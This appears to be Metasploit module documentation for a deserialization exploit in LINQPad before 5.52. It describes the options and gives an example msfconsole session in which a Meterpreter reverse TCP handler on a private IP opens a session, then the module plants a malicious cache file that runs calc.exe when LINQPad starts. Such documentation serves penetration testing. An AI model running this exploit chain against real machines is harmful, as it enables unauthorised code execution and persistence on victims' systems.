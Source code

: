 ## LINQPad 5.48 Deserialization

LINQPad is a scratchpad for .NET programming. Versions prior to 5.52 contain a deserialization vulnerability in processing cache file when program is starting. Application can be downloaded from [here](https://www.linqpad.net/).

## Verification Steps
Steps:

1. Install the application
2. Start msfconsole
3. Get Meterpreter/cmd shell
4. Run: `use windows/local/linqpad_deserialization`
5. Set payload - for example `set payload cmd/windows/generic` - and corresponding parameters
5. Set parameters `session`, `cache_path`, `linqpad_path`, `cleanup`
6. Run exploit

## Options

### cleanup

Enable cleanup of malicious file. The module will replace cache filewith malicious content. If `cleanup` is enabled, after successful execution, the module will remove malicious cache file. The original file will be restored upon re-execution of Linqpad.


### cache\_path

The parameter sets path for folder, where vulnerable cache file is present. This is crucial part of the exploit as the folder can be used to identify whether the current version is vulnerable and the payload delivery is performed through cache file. 

### linqpad\_path

Final part of exploit runs the LINQPad to trigger deserialization procedure. The `linpad_path` parameter sets the path to LINQPad binary, which is ran at the end of exploit.

Example:

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 192.168.95.128
msf6 exploit(multi/handler) > set LPORT 4242
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.95.128:4242 
[*] Meterpreter session 1 opened (192.168.95.128:4242 -> 192.168.95.130:53430) at 2024-12-30 12:46:16 +0100

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/linqpad_deserialization
msf6 exploit(windows/local/linqpad_deserialization) > set LINQPAD_FILE C:/ProgramData/LINQPad/Updates50.AnyCPU/552/LINQPad.exe
msf6 exploit(windows/local/linqpad_deserialization) > set payload windows/exec/cmd
msf6 exploit(windows/local/linqpad_deserialization) > set cache_path C:/Users/ms/AppData/Local/LINQPad
msf6 exploit(windows/local/linqpad_deserialization) > set CMD calc.exe
msf6 exploit(windows/local/linqpad_deserialization) > set session 1
msf6 exploit(windows/local/linqpad_deserialization) > exploit
[*] Exploit completed, but no session was created.
```

Previous example will run `calc.exe` when LINQPad will start.

